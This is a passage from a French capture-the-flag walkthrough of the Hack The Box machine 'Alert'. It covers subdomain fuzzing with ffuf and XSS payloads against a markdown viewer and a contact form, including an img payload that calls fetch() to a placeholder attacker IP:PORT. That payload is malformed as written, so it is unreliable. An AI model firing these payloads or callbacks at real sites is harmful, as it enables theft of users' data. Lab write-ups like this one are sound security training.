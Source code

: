 * `http://alert.htb/server-status/`

![server_status directory](/images/HTB-Alert/server_status.png)

En utilisant ffuf, nous découvrons un sous-domaine: `statistics`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://alert.htb -H "Host: FUZZ.alert.htb" -ic -fc 301
```

![Subdomain enumeration](/images/HTB-Alert/alert_ffuf.png)

À `http://statistics.alert.htb/`, nous trouvons une page de connexion qui demande un `username` et un `password`.

![statistics subdomain login page](/images/HTB-Alert/statistics_subdomain.png)

`Basic Authentication` est utilisé pour l'authentification de l'utilisateur. Cette méthode d'authentification simple n'est pas sécurisée en soi vu que les informations d'identification sont seulement encodées en Base64, et non chiffrées.

![Basic authentication](/images/HTB-Alert/basic_auth.png)

Nous retournons au visionneur de markdown. Ajoutons un payload XSS à notre fichier markdown.

```
<script>alert(1)</script>
```

![XSS test](/images/HTB-Alert/xss_md.png)

Lorsque nous affichons le fichier markdown, notre payload XSS est exécuté!

![XSS payload triggered](/images/HTB-Alert/alert_xss_payload.png)

La même chose se produit lorsque nous partageons le fichier.

![XSS payload triggered 2](/images/HTB-Alert/alert_xss_payload1.png)

Nous pouvons également tester une vulnérabilité XSS sur la page de contact.

```
<img src=x error= \"fetch('http://IP:PORT/?kscorpio')\"
```

![XSS test on contact page](/images/HTB-Alert/test_XSS.png)

Notre payload fonctionne dans ce cas également.

![XSS on contact page success](/images/HTB-Alert/XSS_test_success.png)

## Accès initial

Nous avons confirmé deux cas de XSS. Mettons à jour le contenu de notre fichier markdown et essayons de récupérer des données sensibles.
